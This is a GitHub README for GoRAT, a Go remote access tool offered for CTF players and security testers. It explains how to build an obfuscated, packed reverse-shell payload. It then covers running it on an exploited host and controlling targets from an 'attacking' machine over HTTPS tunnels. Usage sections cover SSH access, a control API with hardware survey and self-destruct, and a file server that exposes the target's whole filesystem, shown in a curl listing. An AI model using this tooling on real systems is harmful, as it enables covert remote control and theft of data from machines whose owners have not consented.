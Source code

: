 ```
 @@@@@@@@   @@@@@@   @@@@@@@    @@@@@@   @@@@@@@  
@@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@  
!@@        @@!  @@@  @@!  @@@  @@!  @@@    @@!    
!@!        !@!  @!@  !@!  @!@  !@!  @!@    !@!    
!@! @!@!@  @!@  !@!  @!@!!@!   @!@!@!@!    @!!    
!!! !!@!!  !@!  !!!  !!@!@!    !!!@!!!!    !!!    
:!!   !!:  !!:  !!!  !!: :!!   !!:  !!!    !!:    
:!:   !::  :!:  !:!  :!:  !:!  :!:  !:!    :!:    
 ::: ::::  ::::: ::  ::   :::  ::   :::     ::    
 :: :: :    : :  :    :   : :   :   : :     :     
```
![GitHub](https://img.shields.io/github/license/JustinTimperio/GoRAT)
[![Go Reference](https://pkg.go.dev/badge/github.com/JustinTimperio/GoRAT.svg)](https://pkg.go.dev/github.com/JustinTimperio/GoRAT)
![Go Report Card](https://goreportcard.com/badge/github.com/JustinTimperio/GoRAT)
[![Codacy Badge](https://app.codacy.com/project/badge/Grade/d343e4d027164076a630448e3102fbf7)](https://www.codacy.com/gh/JustinTimperio/GoRAT/dashboard?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=JustinTimperio/GoRAT&amp;utm_campaign=Badge_Grade)

GoRAT(Go Remote Access Tool) is an extremely powerful yet simple reverse shell, file server, and control plane using HTTPS reverse tunnels as a transport mechanism. (GoRAT is not anonymous and designed for CTF players, Go enthusiasts, and security experts.)
### Supported Distros:

| 64Bit Distros       | 32Bit Distros       |
|---------------------|---------------------|
| Linux               | Linux               | 
| FreeBSD             | FreeBSD             |
| OpenBSD             | OpenBSD             |
| Linux ARM           | Linux ARM           | 
| FreeBSD ARM         | FreeBSD ARM         |
| OpenBSD ARM         | OpenBSD ARM         |
| Linux MIPS          | Linux MIPS          |
| MacOS               | Windows (kinda)     |
| Windows (kinda)     |                     |

# Installing and Building

1. Set up a full GoLang build environment
2. Install [UPX](https://upx.github.io/) and run `go install mvdan.cc/garble`
3. Fill out `config.sh` and run `./build_payload.sh`
4. Transfer the `server` folder to your "attacking" machine, install [bc](https://linux.die.net/man/1/bc) and run `./start_server.sh`
5. Exploit your system and run the binary
6. Connect to the "target" via normal ssh from the "attacking" machine


# Chisel Server Usage
GoRAT uses the standard release binaries provided by the [chisel project](https://github.com/jpillora/chisel/releases). The server requires a number of configure options and has fairly verbose logging. For this reason a small shell script is provided to start and parse the output of chisel for easy use. To use it, run the following:
1. `cd server` 
2. `./start_server.sh` 

As clients connect you will see a log like this. We will use this log to access each clients SSH Server, HTTP File Server, and HTTP Control Server.
```
[mr.robot@localhost ~]$ ./start_server.sh 
Chisel Server Listening on 0.0.0.0:1337
Session #1 | SSH Server Mounted On: 46850
Session #1 | Control Server Mounted On: 46851
```

# Payload Usage
As with many Go binaries, client executables require zero configure and simply need to be executed. In its current state GoRAT does not include any methods of persistence so if you would like to make it a service, you will need to do so by your own methods.

The payload also uses [garble](https://github.com/burrowers/garble) to produce a binary that works as well as a regular build, but has as little information about the original source code as possible.

## SSH Server (Linux, FreeBSD, Darwin, OpenBSD)
Using the logs we can connect to clients directly via ssh using our standard unix OpenSSH package.
```
ssh localhost -p ####
```

## WSSH Windows (The Problem Child)
*WARNING THE WINDOWS SHELL IS TERRIBLE, THIS WAS JUST AN EXPERIMENT*

Please check out this thread: https://github.com/creack/pty/pull/109#issuecomment-864673714

When connecting to Windows hosts the following command will not work as GoRAT does not have a Windows PTY. For Windows systems we connect using a custom wrapper written for GoRAT.

```
cd wssh
go build wssh.go
./wssh.go
```

## Control Server
The control server is a simple http mechanism that translates `/some-page` to internal go commands. In this way, requesting a webpage results directly in the execution of code on a client system. While this mechanism is not very sophisticated, it is extremely reliable and performant. The api current has the following commands:

1. `http://localhost:port/` - Returns a status code of `OK` if the host is online and responding to requests
2. `http://localhost:port/hardware` - Reports basic hardware survey of device in json 
3. `http://localhost:port/stop` - Closes the client payload WITHOUT self-destruction
4. `http://localhost:port/uninstall` - Terminates the client payload AND self-destructs

## File Server
Each client's file server can be accessed on the same port as the control server. The file server is, from a technical standpoint, directly part of Control Server. Files and directories can be accessed at `http://localhost:####/fs/` through your browser or tools like `wget` and `curl`.


```
[robot@localhost ~]$ curl localhost:14963/fs/
<pre>
<a href="bin">bin</a>
<a href="boot/">boot/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="keybase/">keybase/</a>
<a href="lib">lib</a>
<a href="lib64">lib64</a>
<a href="lost+found/">lost+found/</a>
<a href="mnt/">mnt/</a>
<a href="opt/">opt/</a>
<a href="proc/">proc/</a>
<a href="root/">root/</a>
<a href="run/">run/</a>
<a href="sbin">sbin</a>
<a href="srv/">srv/</a>
<a href="sys/">sys/</a>
<a href="test/">test/</a>
<a href="tmp/">tmp/</a>
<a href="usr/">usr/</a>
<a href="var/">var/</a>
</pre>
```


# Architecture
GoRAT uses [chisel](https://github.com/jpillora/chisel) and [gliderlabs ssh server](https://github.com/gliderlabs/ssh) to create a high performance remote reverse tunnel over HTTPS. The diagram below shows how GoRAT establishes a link between multiple “targets” and a single “attacker”. 
![image](goRAT_Architecture.jpg)


# Disclaimer
Use of GoRAT for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this software. Only use for educational purposes / ethical hacking. Multiple tools in this software include their own license.
